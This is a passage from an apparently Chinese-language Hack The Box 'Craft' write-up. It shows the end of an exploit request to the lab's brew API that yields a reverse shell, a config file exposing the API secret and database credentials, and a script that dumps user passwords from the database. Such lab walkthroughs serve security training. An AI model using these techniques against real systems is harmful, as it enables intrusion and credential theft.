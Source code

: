 brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
{% endhighlight %}

- 本地用nc开一个监听，执行payload可以成功反弹shell

- 看到是`root`用户很开心，但实际一看应该是容器里面的，也没有flag.txt


## user flag
- settings.py中有数据库的配置信息
{% highlight python %}
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
{% endhighlight %}

- 参考`dbtest.py`写一个dump用户名密码的python脚本，传到容器里执行
{% highlight python %}
#!/usr/bin/env python
import pymysql

# test connection to mysql database
connection = pymysql.connect(host='db',
                             user='craft',
                             password='qLGockJ6G2J75O',
                             db='craft',
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `username`, `password` FROM `user`"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
{% endhighlight %}
